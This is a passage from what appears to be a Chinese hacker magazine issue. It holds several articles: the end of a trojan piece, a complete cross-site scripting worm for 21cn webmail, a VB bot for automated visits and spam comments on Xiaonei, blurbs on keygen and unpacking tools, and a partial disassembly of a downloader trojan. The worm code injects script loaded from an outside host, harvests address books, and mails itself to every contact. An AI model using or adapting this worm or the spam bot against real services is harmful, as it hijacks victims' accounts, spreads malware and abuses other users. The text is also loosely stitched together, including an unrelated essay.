到此，所有的数据都构造完成了，最后我们要做的工作只是读取“api.dat”的数据结构，利用这些数据把 shellcode 发送给客户端服务端。由于版面有限，这部分代码就不贴出来了，具体代码请参见光盘，程序执行效果如图 3 所示。

我只实现了 cmdshell 功能，更多的功能大家可以自己添加，本文就当做抛砖引玉吧。我在“黑手”论坛的 ID 是“认真的雪”，文章若有错误还望斧正。


> 编辑点评：
> 真的是不错的想法，这种方式“造”出来的马儿一定不会被淘汰的，因为有新的技术诞生，完全可以随时扩展。

## 打造邮箱坦克

图 kungfu panda

从本文您可以学到：

- 1. 了解跨站脚本攻击
- 2. 利用脚本实现 21cn 邮箱的跨站脚本攻击

### 一、Cross-Site Scripting

Cross-Site Scripting，即跨站脚本攻击，也称 XSS，指恶意用户将代码注入到其它用户访问的网页。这种攻击被攻击者利用来绕过安全限制，例如同源策略（same origin policy）。同源策略可以阻止浏览器访问不同域的文件，防止某个文档或脚本从不同源装载，保证用户的安全。

举个例子，编辑 HTML 源代码 `` 发送给任一个 21cn 邮箱用户，该用户打开这封邮件的时候就会弹出一个窗口。这里虽然对用户并没有什么影响，但是用户访问该邮件的时候的确执行了我们事先安排好的 JavaScript 代码 `alert('kungfu')`。

这当然不算什么，但是如果要执行的代码不是 alert 呢？后面的事情就没那么简单了，有可能被攻击用户只要轻轻点击一下鼠标，在看似“everything looks fine”的情况下，构造的代码已经完成了认证下需要被攻击者手工操作的一系列事情，而且是以他之名。

IE7 已经不支持伪协议“JavaScript:”了，用 IE6 的人不知道有多少。Cross-Site Scripting 语句不用 JavaScript 了，但可以用事件驱动模式，例如 `onerror=alert('kungfu')`，还可以用 style 属性的 expression 方法来执行代码（Mozilla 好像都不支持）。既然 21cn 邮箱已经弹出一个框框了，我就不客气地利用 Cross-Site ...Scripting 绕过同源策略，跨域 code injection 一个 js 文件来实现我的 MAIL WORM。

```html
<b code="function CS(){var x=document.createElement('SCRIPT');x.src='http://musasi.host.diy137.cn/21cn_mail_worm.js';x.defer=true;document.getElementsByTagName('HEAD')[0].appendChild(x)};function DO(){window.setTimeout('CS()',1000);if(window.x!=1){window.x=1;DO();};" style="kungfu:expression(execScript(this.code))">IF(U A USING 21CN EMAIL) U HAVE BEEN INFECTED BY 21CN.EMAIL.WORM. ELSE EVERYTHING IS OK, MAY GOOD LUCK AROUND U, BUT MOST OF ALL, KUNGFU PANDA IS MY HERO :)</b>
```

其中 http://musasi.host.diy137.cn/21cn_mail_worm.js 是远程调用的 JavaScript 文件，里面就是蠕虫的代码；script 的 defer 属性默认是 false，设置为 true 就告诉浏览器 Script 段包含了无需立即执行的代码，不必立即对其进行处理。

在 b 标签上自定义了一个 code 属性，用来储存 js 代码，用 expression 来执行脚本 execScript(this.code)。浏览器方法 execScript 执行其中的脚本。然后用浏览器对象 document 的 createElement 方法创建 `<script>` 标签指向远程 js 文件，if(window.x!=1){window.x=1;DO();}; 则防止 expression 中的脚本循环执行。

### 二、MAIL WORM

#### 1. createXmlHttpRequest 功能模块

MAIL WORM 阶段的主角是 XML HTTPRequest 对象，不管同步还是异步，都能帮我们在后台传输数据。首先构造一个创建 XMLHttpRequest 对象的函数，代码如下：

```javascript
var xmlHttp = createXmlHttpRequest();
function createXmlHttpRequest()
{
    // 如果是Internet Explorer
    if(window.ActiveXObject)
    {
        try
        {
            xmlHttp = new ActiveXObject("Microsoft.XMLHTTP");
        }
        catch (e)
        {
            try
            {
                xmlHttp = new ActiveXObject("MSXML2.XMLHTTP");
            }
            catch(e)
            {
                xmlHttp = false;
            }
        }
    }
    else // 如果是 Mozilla或其它
    {
        try
        {
            xmlHttp = new XMLHttpRequest();
        }
        catch (e)
        {
            xmlHttp = false;
        }
    }
    return xmlHttp;
}
```

以上代码创建浏览器兼容的 xmlhttp（本蠕虫不支持 Mozilla）。

#### 2. 获取邮箱联系人列表模块

```javascript
process();
function process()
{
    // 因为 21cn 邮箱每次登录的域是随机的，可能是 addr1~addr10
    // 同源策略对 xmlhttp 工作也是有影响的，访问不同域没有权限
    // 所以不得已写了 xmlhttpopenaddr 函数
    xmlhttpopenaddr();
    xmlHttp.onreadystatechange = GetResponse;
    xmlHttp.send(null);
}

// GetResponse() 函数获取邮件联系人列表
function GetResponse()
{
    if (xmlHttp.readyState == 4)
    {
        if (xmlHttp.status == 200)
        {
            // 以文本形式返回数据
            xmlResponse = xmlHttp.responseText;
            // 正则表达式匹配邮箱字符串
            pattern = /\w+[\-\.]?\w+]*@\w+([\-\.]\w+)*\.\w+([\-\.]\w+)*/g;
            // 邮箱字符串数组存于 Emaila
            Emaila = xmlResponse.match(pattern);
            // 以逗号分隔的邮箱列表字符串赋给 Email
            Email = Emaila.toString();
            // 用 alert 测试获取邮箱联系人列表模块效果。
            alert(Email.toString());
        }
    }
}
```

xmlhttpopenaddr() 用 try catch 语句函数访问当前邮箱登录域，不会由于没有权限而产生脚本错误。

// true 体验异步传输，这就是 ajax，但是在模块结合成蠕虫时应改为 false

```javascript
function xmlhttpopenaddr()
{
    // 21cnmail 邮箱联系人地址
    var addr1 = "http://hermesw1.webmail.21cn.com/webmail/addressBookList.do";
    var addr2 = "http://hermesw2.webmail.21cn.com/webmail/addressBookList.do";
    var addr3 = "http://hermesw3.webmail.21cn.com/webmail/addressBookList.do";
    var addr4 = "http://hermesw4.webmail.21cn.com/webmail/addressBookList.do";
    var addr5 = "http://hermesw5.webmail.21cn.com/webmail/addressBookList.do";
    var addr6 = "http://hermesw6.webmail.21cn.com/webmail/addressBookList.do";
    var addr7 = "http://hermesw7.webmail.21cn.com/webmail/addressBookList.do";
    var addr8 = "http://hermesw8.webmail.21cn.com/webmail/addressBookList.do";
    var addr9 = "http://hermesw9.webmail.21cn.com/webmail/addressBookList.do";
    var addr10 = "http://hermesw10.webmail.21cn.com/webmail/addressBookList.do";
    try
    {
        xmlHttp.open("get", addr1, true);
    }
    catch(e)
    {
        try
        {
            xmlHttp.open("get", addr2, true);
        }
        catch(e)
        {
            try
            {
                xmlHttp.open("get", addr3, true);
            }
            catch(e)
            {
                try
                {
                    xmlHttp.open("get", addr4, true);
                }
                catch(e)
                {
                    try
                    {
                        xmlHttp.open("get", addr5, true);
                    }
                    catch(e)
                    {
                        try
                        {
                            xmlHttp.open("get", addr6, true);
                        }
                        catch(e)
                        {
                            try
                            {
                                xmlHttp.open("get", addr7, true);
                            }
                            catch(e)
                            {
                                try
                                {
                                    xmlHttp.open("get", addr8, true);
                                }
                                catch(e)
                                {
                                    try
                                    {
                                        xmlHttp.open("get", addr9, true);
                                    }
                                    catch(e)
                                    {
                                        try
                                        {
                                            xmlHttp.open("get", addr10, true);
                                        }
                                        catch(e)
                                        {
                                        }
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    }
}
```

#### 3. 群发邮件模块

这一模块用 xmlhttp 发送模拟构造的 http 的 post 请求，利用抓包可以得到 post 数据形式。

```javascript
sendmail();
function sendmail()
{
  var to = Email; // to 是收信人字段，把联系人地址赋给它
  var subject = "21CN_MAIL_WORM_COME IN"; // 邮件标题
  // 邮件内容，就是感染蠕虫的 js 脚本
  var content = "<b code=\"function CS(){var x=document.createElement('SCRIPT'); x.src='http://musasi.host.diy137.cn/21cn_mail_worm.js'; x.defer=true;document.getElementsByTagName('HEAD')[0].appendChild(x)};function DO(){window.setTimeout('CS()',1000)};if(window.x!=1){window.x=1;DO()}" style='kungfu: expression(execScript(this.code))'>IF(U A USING 21CN EMAIL) U HAVE BEEN INFECTED BY 21CN.EMAIL.WORM. ELSE{ EVERY-THING IS OK; MAY GOOD LUCK AROUND U; BUT MOST OF ALL, KUNGFU PANDA IS MY HERO. }<\/b>";
```

```javascript
var httprequestpacket;
// 开始构造 http 的 post 数据，依次是 post 的表单字段和值(name=value)
// 回车、\r 换行 \n
// 各字段以 -----------------------------7d9019601f0 分隔
httprequestpacket = "\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"contentType\"\r\n\r\n";
httprequestpacket += "1\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"timerSend\"\r\n\r\n";
httprequestpacket += "false\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"mailMode\"\r\n\r\n\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"scheduledDate\"\r\n\r\n\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"saveDraft\"\r\n\r\n";
httprequestpacket += "false\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"to\"\r\n\r\n";
httprequestpacket += (to + "\r\n");
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"cc\"\r\n\r\n\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"bcc\"\r\n\r\n\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"subject\"\r\n\r\n";
httprequestpacket += (subject + "\r\n");
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"content\"\r\n\r\n";
httprequestpacket += (content + "\r\n");
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"contentHtmlTemp\"\r\n\r\n\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"underWrite\"\r\n\r\n";
httprequestpacket += "1\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"priority\"\r\n\r\n";
httprequestpacket += "3\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"date\"\r\n\r\n\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"interval\"\r\n\r\n\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"_year\"\r\n\r\n\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"_month\"\r\n\r\n\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"_date\"\r\n\r\n\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"_hour\"\r\n\r\n\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"intervalDays\"\r\n\r\n";
httprequestpacket += "1\r\n";
httprequestpacket += "-----------------------------7d9019601f0\r\nContent-Disposition: form-data; name=\"repeat\"\r\n\r\n";
httprequestpacket += "1\r\n";
// -----------------------------7d9019601f0--\r\n 表示结束
httprequestpacket += "-----------------------------7d9019601f0--\r\n";
// 也是由于 21cn 邮箱每次登录的域是随机的，所以不得已又写了 xmlhttpopenmail() 函数
```

```javascript
xmlhttpopenmail();
// xmlhttp.setRequestHeader 设置请求头，注意 setRequestHeader 要在
// open 之后，否则发生未指定错误
xmlHttp.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------7d9019601f01f");
xmlHttp.send(httprequestpacket);
}
// xmlhttpopenmail() 函数访问当前邮箱登录域不会由于没有权限而产生脚
// 本错误
function xmlhttpopenmail()
{
    // 数据包提交地址，也有 10 个，分别是 url1~url10
    var url1 = "http://hermesw1.webmail.21cn.com/webmail/sendMail.do";
    var url2 = "http://hermesw2.webmail.21cn.com/webmail/sendMail.do";
    var url3 = "http://hermesw3.webmail.21cn.com/webmail/sendMail.do";
    var url4 = "http://hermesw4.webmail.21cn.com/webmail/sendMail.do";
    var url5 = "http://hermesw5.webmail.21cn.com/webmail/sendMail.do";
    var url6 = "http://hermesw6.webmail.21cn.com/webmail/sendMail.do";
    var url7 = "http://hermesw7.webmail.21cn.com/webmail/sendMail.do";
    var url8 = "http://hermesw8.webmail.21cn.com/webmail/sendMail.do";
    var url9 = "http://hermesw9.webmail.21cn.com/webmail/sendMail.do";
    var url10 = "http://hermesw10.webmail.21cn.com/webmail/sendMail.do";
    try {
        xmlHttp.open("post", url1, false);
    } catch(e) {
        try {
            xmlHttp.open("post", url2, false);
        } catch(e) {
            try {
                xmlHttp.open("post", url3, false);
            } catch(e) {
                try {
                    xmlHttp.open("post", url4, false);
                } catch(e) {
                    try {
                        xmlHttp.open("post", url5, false);
                    } catch(e) {
                        try {
                            xmlHttp.open("post", url6, false);
                        } catch(e) {
                            try {
                                xmlHttp.open("post", url7, false);
                            } catch(e) {
                                try {
                                    xmlHttp.open("post", url8, false);
                                } catch(e) {
                                    try {
                                        xmlHttp.open("post", url9, false);
                                    } catch(e) {
                                        try {
                                            xmlHttp.open("post", url10, false);
                                        } catch(e) {
                                        }
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    }
}
```

#### 4. 组合成蠕虫

xmlhttpopenadd() 函数的异步 true 应改为同步 false，因为 sendmail() 函数执行前需要得到 Email 值传递给变量 to（收信人）。如果是异步联系人地址时，Email 变量还没返回就执行 sendmail() 函数，那么变量 to 的值就为 undefined，这样就等着收系统退信（user<undefined@21cn.com> not found）。还有，把 GetResponse() 函数里的 alert 去掉。

21cn mail worm 大功告成，测试成功，如图 1。被感染的 21cn 邮箱用户只要点击受感染邮件，就会向地址簿里的所有联系人发送染毒邮件，21cn 邮箱蠕虫大爆发咯。


> （文章中所涉及的相关代码及工具都已收录在本期光盘中）

**编辑点评：**
小编实测没能成功，不知是方法错误，还是有其它因素。希望各位看过并测试通过后发个帖，(*^__^*) 嘻嘻……

## 左手回踩，右手留言
——玩转校内网人气

从本文您可以学到：
利用 VB 实现校内网回踩

### 一、编程前言

相信《黑客手册》的许多忠实读者都是在校学生吧？而且大多数人都注册了校内网，校内网凭借自己固有的特色成为学生的最爱。注册了校内网，自己的名气却成了问题！怎么办呢？网上的工具很多，但大多都没有用！因为当你浏览对方后，你的头像会出现在对方的页面上，所以我想了个办法：回踩！时下在校内网上可是很流行的！为此特别奉献自己编写的一款工具，让大家学习学习，呵呵。

**编程思路：** 登录校内网→获取页面出现的所有 URL→筛选出主页来访或留言的 URL→逐个访问并留言→最后随便看看（随机访问校内网的注册会员）。

因为校内网增加了看完 100 人之后必须输入验证码的限制，所以在程序的最后增加个语音提醒功能，这样就可以把程序最小化后忙自己的事情了。另外，校内网的非星级用户留言时需要验证，而实名认证上传真实的照片和真实的姓名就可以成为星级用户，这时留言就不需要验证码了！

编程环境我们采用 VB，因为比较简单，容易上手，具体搭配为：**WINDOWS XP2 + Visual Basic V6.0 SP6**。

### 二、编程实现

打开 VB6.0 会弹出一个新建工程的对话框，如图 1 所示。


然后选择“标准 EXE”，添加一个“WebBrowser”控件。方法为右击工具条空白处，在出现部件处单击“Microsoft Internet Controls”，确定后左下角出现一个地球状的小图标，如图 2 所示。


然后添加 commandbutton、textbox、timer、label 控件，整个窗口的布局如图 3 所示。

- 1. 登录

为了简单，就直接在校内网主页登录，我们在“登录校内网”按钮事件（Command1_Click）中写入如下代码：

```vb
Command2.Enabled = True
WebBrowser1.Navigate "http://home.xiaonei.com/Home.do"
t.Caption = "登录中..."
```

- 2. 获取所有的 URL 并筛选

首先判断页面是否加载完毕，完毕后加个 ListBox 控件存放获得的所有 URL。

```vb
Private Sub WebBrowser1_DocumentComplete(ByVal pDisp As Object, URL As Variant)
    Dim X As Long    '定义计数变量
    List1.Clear      'List 清空
    For X = 0 To WebBrowser1.Document.Links.Length - 1   '计数循环
        List1.AddItem WebBrowser1.Document.Links.Item(X) '逐个写入 ListBox
    Next X
End Sub
```

WebBrowser1.Document.Links.Item 是一个由高级到低级属性的延伸，也就是浏览器页面的所有链接。

将 ListBox 的内容写入 temp.txt 并筛选，这是个很关键的地方，在“蜘蛛留言”按钮事件（Command2_Click）中写入如下代码：

```vb
If Text1.Text = "" Or Text2.Text = "" Or Text3.Text = "" Then
    MsgBox "留言内容不能为空！"
End If
Timer2.Enabled = True
Command3.Enabled = True
t.Caption = "获取数据中..."
RemoveDups List1, True    '这个后面会讲到
i = 223904913             '随便看看的初始 ID
Dim j As Integer
Open App.Path & "\temp.txt" For Output As #1
For j = 0 To (List1.ListCount - 1)
    Print #1, List1.List(j)
Next j
Close #1                  '将 ListBox 的内容写入到本目录下的 temp.txt 文本中
Open App.Path & "\temp.txt" For Input As #1
Do While Not EOF(1)
    Line Input #1, a      '逐行读入
    If Left$(a, 30) = "http://xiaonei.com/profile.do" Then  '判断是否满足需要的链接条件
```


```vb
If wenben = "" Then
    wenben = a
Else
    wenben = wenben + vbNewLine + a  '换行写入
End If
End If
DoEvents
Loop
Close #1
Kill App.Path & "\temp.txt"
Open App.Path & "\temp.txt" For Output As #1
Print #1, wenben
Close #1
t = MsgBox("蜘蛛搜索完毕准备爬行！", vbOKOnly + vbInformation)
If t = vbOK Then Timer3.Enabled = True
Open App.Path & "\temp.txt" For Input As #1
End Sub
```

Left$(a, 30) 为判断 a 从左边起的 30 个字符是否满足条件，通过观察知道，校内网的通用地址为“http://xiaonei.com/profile.do?”。

- 3. 回踩并留言，这是程序的核心部分

因为校内网限制了不能在短时间内留言相同的内容，所以用了三个 TextBox 让用户自定义留言内容。

Timer1 的功能为按照一定的时间间隔来访问筛选出的 URL，将 Timer1 的时间间隔设置为 10000，也就是十秒。在 Timer1 事件中写入如下代码：

```vb
Private Sub Timer1_Timer()
Dim a
Line Input #1, a
WebBrowser1.Navigate a  '调用 WebBrowser 浏览
Me.Caption = "正在访问" & a
z = z + 1
DoEvents
If EOF(1) Then
    Timer1.Enabled = False
    t = MsgBox("回踩完毕随便看看！", vbOK + vbInformation)
    If t = vbOK Then
        Timer3.Enabled = True
    End If
    Me.Caption = "共踩空间 " & z & " 个。"
    z = 0
End If
End Sub
```

Timer2 的功能为按照一定的时间间隔判断网页中是否有留言框，有则留言。时间间隔设置为 22222，在 Timer2 中写入如下代码：

```vb
l(1) = Text1.Text  '定义数组中的内容由文本框中获得
l(2) = Text2.Text
l(3) = Text3.Text
b = l(Int(Rnd * 3) + 1)  '随机读取数组 l 中的内容并赋值给 b
Dim vDoc, vTag
Dim i As Integer
Set vDoc = WebBrowser1.Document  '所有文本内容
For i = 0 To vDoc.All.Length - 1
    If UCase(vDoc.All(i).tagName) = "INPUT" Or (UCase(vDoc.All(i).tagName) = "TEXTAREA") Then  '判断是否有表单
        Set vTag = vDoc.All(i)
        If vTag.Type = "text" Or vTag.Type = "textarea" Then
            Select Case vTag.Name
                Case "body"
                    vTag.Value = b
            End Select
        ElseIf vTag.Type = "button" And vTag.Value = "留言" Then
            vTag.Click
        End If
    End If
Next i
If Left$(Me.WebBrowser1.LocationURL, 34) = "http://xiaonei.com/validateuser.do" Then
    WindowsMediaPlayer1.URL = App.Path & "\warning.wav"
End If  '语音提醒代码
```

其中 vTag.Type 和 vTag.Value 的值根据实际情况变化，校内网的留言框关键 HTML 代码如下：

```html
<textarea id="cmtbody" name="body" rows="4" cols="60" tabindex="2"></textarea>
<input type="button" value="留言" class="input-submit" id="commentPostBtn" tabindex="3" />
```

从中可以知道 vTag.Type 为“button”，vTag.Value 为“留言”。

- 4. 随便看看，随机访问别人的校内网

用 Timer 功能来实现，时间间隔设置为 3666，在 Timer3 事件中写入如下代码：

```vb
Private Sub Timer3_Timer()
Me.Caption = "随便看看咯..."
If i < 300000000 Then
    If Left$(Me.WebBrowser1.LocationURL, 34) = "http://xiaonei.com/validateuser.do" Then
        WindowsMediaPlayer1.URL = App.Path & "\warning.wav"  '语音提醒代码
    Else
        WebBrowser1.Navigate "http://home.xiaonei.com/getuser.do?id=" & i & ""
    End If
End If
i = i + 6  '6 为访问的人数间隔，可任意填写
End Sub
```

- 5. 提醒

因为校内网需要输入验证码的页面 URL 为“http://xiaonei.com/validateuser.do”，所以只要判断当前页面的 URL 是不是此 URL 即可。用 WebBrowser1.LocationURL 来显示当前 WEB 页面的 URL，如果是则启动 WindowsMediaPlayer（需要在部件中添加 Windows Media Player）播放提示音，具体代码如下：

```vb
If Left$(Me.WebBrowser1.LocationURL, 34) = "http://xiaonei.com/validateuser.do" Then
    WindowsMediaPlayer1.URL = App.Path & "\warning.wav"
End If
```

要求程序和 wav 文件放在同一个文件夹中，其实可以通过资源文件的方式嵌入程序中，但考虑到程序的体积就不这样做了，有兴趣的朋友可以自己试试！因为在页面获得的符合条件的 URL 可能重复，所以需要逐一比较，清除重复的 URL，具体代码如下：

```vb
Sub RemoveDups(lst As Control, comptype As Boolean)
Dim lPos As Long        '原始比对项目 index
Dim iCompPos As Long    '待比对项目 index
Dim sComp As String     '原始比对字串
Dim sComptype As Long   '0(binary) / 1(textual) 比对
lPos = 0                '初始化 lPos 为 0
If comptype Then sComptype = 0 Else sComptype = 1
Do While lPos < lst.ListCount - 1    '循环
    sComp = lst.List(lPos)           '赋值给 sComp
    iCompPos = lPos + 1
    Do While iCompPos < lst.ListCount '循环终止条件
        If StrComp(sComp, lst.List(iCompPos), sComptype) = 0 Then
            lst.RemoveItem iCompPos   '删除此条内容
            iCompPos = iCompPos - 1
        End If
        iCompPos = iCompPos + 1
    Loop
    lPos = lPos + 1
Loop
End Sub
```

然后在 Command2 中调用如下代码：

## 快码加编

RemoveDups .List1, True

在“紧急停止”按钮事件（Command3_Click）中写入如下代码：

```vb
Timer1.Enabled = False
Timer2.Enabled = False
Timer3.Enabled = False
t.Caption = "共踩空间 " & z & " 个。"
Close #1
Kill App.Path + "\temp.txt"
```

然后设置程序运行的初始状态，代码如下：

```vb
Private Sub Form_Load()
WebBrowser1.Navigate "http://xiaonei.com/profile.do?id=223904913"
Timer1.Enabled = False
Timer2.Enabled = False
Timer3.Enabled = False
t.Caption = "欢迎使用自动留言校内增加人气软件"
Command2.Enabled = False
Command3.Enabled = False
End Sub
```

最后为了防止用户误操作，在点击关闭按钮时询问是否关闭程序，具体代码如下：

```vb
Private Sub Form_Unload(Cancel As Integer)
t = MsgBox("确定退出校内自动留言软件吗？", vbOKCancel + vbQuestion, "退出自动留言软件！")
If t = vbCancel Then Cancel = 1
End Sub
```


图 4　测试结果

### 三、编程测试

通过测试，结果如图4所示，留言效果良好，超过95%的人都回踩了，且大部分人都回复了留言，感觉挺不错，毕竟是自己的劳动所得嘛！

编后语：编程过程中会遇到各种问题，不要一时解决不了就放弃，常到《黑客手册》论坛转转，一定会有收获，记住：百度、谷歌是最好的老师。

> （文章中所涉及的相关代码及工具都已经收录在本期光盘中）

编辑点评：百度一下、谷歌一下，说不定会有意外收获哦！


早上走在北京的街头，发现行人都是如此的匆匆，除了等候车辆及红绿灯之外，还有什么会令他们停留一下看看身边的风景呢？这正是上班的黄金时刻，无论远的还是近的，走到了某一个点的时候，又远又近的人们总能在这么一个点上汇合。这说明了远的人要早起，近的人可以睡个懒觉。在路上的时候，我都比较留意身边路过的人们，可能是刚醒来的缘故吧，人们的脸上还是有点疲惫，很少看起来是精神抖擞的，是因为缺乏睡眠还是已经经过生活的磨合了呢？这不得而知！或许这就是生活。

## 本月版资源

- 1. **Serial Sniffer Creator 2.0**

  Serial Sniffer Creator 2.0 是 AT4RE 组织出品的一个类似于 keymaker 的注册机工具，如图1。之前我发现很多杀软会对 keymaker 报毒，其实那是误报，但是有时候并不排除使用 keymaker 制作出来的东西被捆绑了某些恶意文件，所以试试 Serial Sniffer Creator 或许效果也会很不错。

- 2. **国外的一份 OllyDbg 教程**

  一共十篇，不过都是英文的，或许对英文不好的朋友会有点吃力，但是讲得还是比较基础。一般国外的教程原理性的东西讲得比较多，也比较透彻，不像国内的教程，很多一句话就带过去了，有时候看得一头雾水。如果可以，我还是建议大家看一看，当然高手直接跳过。


图 1

- 3. **StrongOD v0.2.3**

  一个功能非常强大的 OD 插件，几乎能过目前主流强壳，所以是脱壳必备的工具。这一次增加了不少好东西，尤其是增加了快捷键文档，让我们可以更方便地使用这个插件，所以建议大家好好看一看附件中的“快捷键例子.txt”和“快捷键说明.txt”。另外，截止到 2009.03.05，修复和更新了一系列 bug 和功能，具体请看附件。

## 简单分析“国外下载者 Priv8 Download3r 2.2”

□ sweet

**从本文你可以学到：**
下载者的一般分析流程

一日十分无聊，在网上闲逛别人的网络在线电脑，东看看西看看，打算是否能找出点什么来。突然一个名称为“国外下载者 Priv8 Download3r 2.2”的目录映入我的眼帘，于是就 down 下来看看是怎么一个东西。解压后看到有三个文件，分别是：

- Priv8-Download3r-22.exe：主程序
- fsg.exe：加壳程序
- stub.dat：这个我不知道是干嘛的。我猜测可能是生成后可以免杀的东西吧。

运行主程序 Priv8-Download3r-22.exe 生成一个 downloader.exe，如图 1。

- URL：这个当然就是下载者的地址了，这个怎么称为下载者呢？
- NAME：这个我选择默认的；
- Download file to：下载后的文件存放到哪里；
- Change Icon：这个就是修改图标；
- Pack downloader.exe：这个是当时生成的东西加不加壳，我选择不加壳；
- Create：生成 downloader.exe。

为了省去脱壳时间，所以我选择了不加壳，然后用 PEiD 扫描了一下，发现居然是 MinGW32 GCC V3.X 编写的，如图 2。既然是要分析，那么就将它丢进 OD 去看看，在进入第一个 call 后，发现这么一个函数：

```asm
00401111  |.  E8 4A080000    call    <jmp.&KERNEL32.SetUnhandledExceptionFilter>
00401116  |.  83EC 04        sub     esp, 4
00401119  |.  E8 42060000    call    00401760
```

> 小提示：一些程序会通过 SetUnhandledExceptionFilter() 来设定 thread 的最高层异常处理（代替 Windows 提供的那个错误信息），再制造异常，来达到扰乱调试的效果。

好像这个并不影响我们分析，所以这里不多分析了，我们进去那个 call 00401760 看看，原来里面没什么有用的信息，所以又跳出来。来到 `004011E2 |. E8 29040000 call 00401610` 的时候，


我已经开始嗅到关键的气味了，进去后看到：

```asm
00401636  |.  E8 75040000    call    <jmp.&KERNEL32.GetStartupInfoA>
; GetStartupInfoA
```

这是一个用于获取一个进程的启动信息的函数，通过指定一个 STARTUPINFO 结构，用于最终载入进程的启动信息。继续往下看：

```asm
00401715  |.  E8 D6FDFFFF    call    004014F0
```

我发现这个 call 是有非常大的动作了，所以这里会详细分析一下，进去这个 call 后：

```asm
00401523  |.  E8 58050000    call    <jmp.&KERNEL32.GetTempPathA>
; GetTempPathA    /// 获取临时目录路径
00401528  |.  83EC 08        sub     esp, 8
0040152B  |.  893424         mov     dword ptr [esp], esi
...
0040154C  |.  C70424 640C00> mov     dword ptr [esp], 64
00401553  |.  E8 28FDFFFF    call    00401280        /// 加载资源、创建文件
```

所以这个 call 00401280 是很有必要进去看一下的：

```asm
00401281  |.  BA 00304000    mov     edx, 004C3000        ; ASCII "NONE"  /// 资源名称
00401286  |.  89E5           mov     ebp, esp
...
004012A3  |.  894424 04      mov     dword ptr [esp+4], eax
004012A7  |.  C70424 C00000> mov     dword ptr [esp], 0
004012AE  |.  E8 CD060000    call    <jmp.&KERNEL32.FindResourceA>
; FindResourceA    /// 查找资源
004012B3  |.  83EC 0C        sub     esp, 0C
...
004012CB  |.  E8 C0060000    call    <jmp.&KERNEL32.LoadResource>
; LoadResource    /// 加载资源
004012D0  |.  83EC 08        sub     esp, 8
...
004012FD  |.  E8 BB060000    call    <jmp.&KERNEL32.LockResource>
; LockResource    /// 加载资源
00401302  |.  E8 A9060000    call    <jmp.&KERNEL32.SizeofResource>
; SizeofResource  /// 资源大小
00401307  |.  8945 E8        mov     dword ptr [ebp-18], eax
...
0040133B  |.  E8 80060000    call    <jmp.&KERNEL32.CreateFileA>
; CreateFileA     /// 创建文件 down.ocx
00401340  |.  83EC 1C        sub     esp, 1C
...
00401365  |.  E8 66060000    call    <jmp.&KERNEL32.WriteFile>
; WriteFile       /// 写入数据
0040136A  |.  C745 EC 010000> mov     dword ptr [ebp-14], 1
00401371  |.  83EC 14        sub     esp, 14
00401374  |.  891C24         mov     dword ptr [esp], ebx
00401377  |.  E8 64060000    call    <jmp.&KERNEL32.CloseHandle>
; CloseHandle     /// 关闭句柄
0040137C  |.  83EC 04        sub     esp, 4
0040137F  |.  893424         mov     dword ptr [esp], esi
00401382  |.  E8 69060000    call    <jmp.&KERNEL32.FreeResource>
; FreeResource    /// 释放资源
```

这里的代码比较常见，以上代码的主要目的就是，获取到临时目录路径之后，释放出一个 down.ocx 文件。那这个文件到底有什么用呢？后面会分析到！我们再继续看下面的代码：

```asm
00401576  |. BA 1F304000    mov edx, 0040301F ; [ASCII] "iexplore.exe"
0040157B  |. B8 2C304000    mov eax, 0040302C ; [ASCII] "open"
00401580  |. 894C24 0C      mov dword ptr [esp+C], ecx
00401584  |. 31DB           xor ebx, ebx
00401586  |. 895C24 10      mov dword ptr [esp+10], ebx
0040158A  |. 895424 08      mov dword ptr [esp+8], edx
0040158E  |. 894424 04      mov dword ptr [esp+4], eax
00401592  |. E8 29050000    call <jmp.&SHELL32.ShellExecuteA>
ShellExecuteA
```

这里代码的主要作用是打开 IE 浏览器。

```asm
0040159A  |. 8DB6 00000000  lea esi, dword ptr [esi]
004015A0  |. C70424 313040> mov dword ptr [esp], 00403031 ; [ASCII] "IEFrame"
004015A7  |. 31D2           xor edx, edx
004015A9  |. 895424 04      mov dword ptr [esp+4], edx
004015AD  |. E8 8E030000    call <jmp.&USER32.FindWindowA>
FindWindowA
```

这里代码的主要作用就是判断是否真的打开 IE 浏览器了。

```asm
004015E6  |. E8 65030000    call <imp.&USER32.GetWindowThreadProcessId>
GetWindowThreadProcessId
004015EB  |. 83EC 08        sub esp, 8
004015EE  |. 897424 04      mov dword ptr [esp+4], esi
004015F2  |. 8DB5 E4FEFFFF  mov esi, dword ptr [ebp-11C]
004015F8  |. 893424         mov dword ptr [esp], esi
004015FB  |. E8 A0FDFFFF    call 004013A0
```

然后就获取这个线程进程的 ID。再看看 call 004013A0：

```asm
004013C6  |. E8 35060000    call <imp.&KERNEL32.OpenProcess>
OpenProcess  /// 打开进程
